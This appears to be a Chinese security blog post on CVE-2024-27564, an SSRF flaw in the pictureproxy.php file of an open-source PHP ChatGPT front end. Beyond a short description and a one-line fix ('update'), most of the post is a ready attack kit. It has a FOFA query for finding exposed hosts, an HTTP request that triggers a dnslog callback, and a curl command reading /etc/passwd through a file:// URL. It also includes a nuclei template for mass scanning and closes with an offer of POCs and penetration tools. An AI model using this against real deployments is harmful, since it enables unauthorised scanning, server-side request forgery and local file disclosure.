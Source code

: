 #  CVE-2024-27564   
原创 fgz  AI与网安   2024-03-27 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
chatgpt   
pictureproxy.php SSRF  
漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
chatgpt  
  
开源地址如下：  
  
https://github.com/dirk1983/chatgpt  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tUlicGgYF0vf7KwrjyXjSkLYckw1T9VKhibibZgGRj2b9CdzE594X5licFg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
chatgpt是  
全网最易部署，响应速度最快的ChatGPT环境。PHP版调用OpenAI接口进行问答和画图，采用Stream流模式通信，一边生成一边输出。前端采用EventSource，支持Markdown格式解析，支持公式显示，代码有着色处理，支持画图。页面UI简洁，支持上下文连续会话。  
  
chatgpt 的 pictureproxy.php 接口处没有对url参数进行校验，攻击者可以通过url参数注入任意URL让应用发出任意请求。  
  
  
存在漏洞的代码如下  
```
<?php
if (isset($_GET['url'])) {
    $image = file_get_contents($_GET['url']);
    header("Content-type: image/jpeg");
    echo $image;
} else {
    echo "Invalid request";
}
```  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-1999760920"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tc3P1t3kloibecRvcL7924QmkSeobYjffG4Cu2TOQEt4s6IpicXH37quQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
http://hbwqkb.dnslog.cn  
是dnslog地址  
```
GET /pictureproxy.php?url=http://hbwqkb.dnslog.cn HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
dnslog收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tq6RYphHIt3W3I6B10WwWJqT0QtVt9vweiaZuT3iah61ibF1CIBjtg3Ccg/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现完成  
  
  
如果未将OPEN basedir配置为限制请求可以操作的目录，则还可能导致任意本地文件读取。  
```
curl -i -s -k http://127.0.0.1/pictureproxy.php?url=file:///etc/passwd
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tyjE1pAURr7MozJvwqSmKRCpwgx5AQh1A25yQhHX81zLSWkHYqHGN7A/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-27564

info:
  name: chatgpt pictureproxy.php SSRF漏洞
  author: fgz
  severity: high
  description: |
    chatgpt是全网最易部署，响应速度最快的ChatGPT环境。PHP版调用OpenAI接口进行问答和画图，采用Stream流模式通信，一边生成一边输出。前端采用EventSource，支持Markdown格式解析，支持公式显示，代码有着色处理，支持画图。页面UI简洁，支持上下文连续会话。chatgpt 的 pictureproxy.php 接口处没有对url参数进行校验，攻击者可以通过url参数注入任意URL让应用发出任意请求。
  reference:
    - https://avd.aliyun.com/detail?id=AVD-2024-27564
  metadata:
    max-request: 1
    fofa-query: icon_hash="-1999760920"
    verified: true
  tags: CVE-2024,ssrf,chatgpt

requests:
  - raw:
      - |
        GET /pictureproxy.php?url=http://{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate, br
        Connection: close
        Upgrade-Insecure-Requests: 1

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
  
  
